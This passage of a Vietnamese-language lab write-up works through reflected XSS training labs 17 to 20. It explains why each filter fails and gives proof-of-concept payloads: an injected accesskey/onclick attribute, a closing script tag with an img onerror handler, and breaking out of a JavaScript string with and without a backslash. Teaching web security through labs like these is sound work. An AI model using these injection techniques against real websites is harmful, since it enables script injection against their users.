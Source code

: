Thử inject thuộc tính `accesskey` với sự kiện `onclick`, `accesskey` cho phép xác định 1 chữ cái khi được nhấn kết hợp với các phím khác sẽ khiến sự kiện xảy ra. 
Payload:
```
/?'accesskey='x'onclick='alert(1)
```
![image](https://hackmd.io/_uploads/rkv57o-L6.png)

# Lab 18: Reflected XSS into a JavaScript string with single quote and backslash escaped
![image](https://hackmd.io/_uploads/Syze6bMUT.png)

Chèn script quen thuộc
![image](https://hackmd.io/_uploads/rkxZAZfI6.png)
Kết quả trả về hơi lạ

Xem source thì ta biết vì trước hết trình duyệt phân tích cú pháp HTML để xác định các thành phần trang, sau đó mới thực hiện các lệnh
![image](https://hackmd.io/_uploads/rJF4RbfLT.png)

Payload
```
</script><img src=1 onerror=alert(1)>
```
![image](https://hackmd.io/_uploads/Hkxrgzf8T.png)

# Lab 19: Reflected XSS into a JavaScript string with angle brackets HTML encoded
![image](https://hackmd.io/_uploads/SyfoQzz86.png)

Ở lab này dấu `<` và `>` đã bị mã hóa
![image](https://hackmd.io/_uploads/r1AVNGMIT.png)

Để thoát khỏi chuỗi này và gọi hàm `alert()`. Payload lại như sau
```
';alert(1);//
```
![image](https://hackmd.io/_uploads/BJG-8MGI6.png)

# Lab 20: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
![image](https://hackmd.io/_uploads/ryttLMMLa.png)

Lab này đã mã hóa ký tự `<>`, `""` và bỏ qua ký tự `''`
![image](https://hackmd.io/_uploads/SJpVDMfUa.png)
![image](https://hackmd.io/_uploads/SJnHDMf8p.png)

Payload
```
\';alert(1)//
```
![image](https://hackmd.io/_uploads/ryH6DfzUT.png)
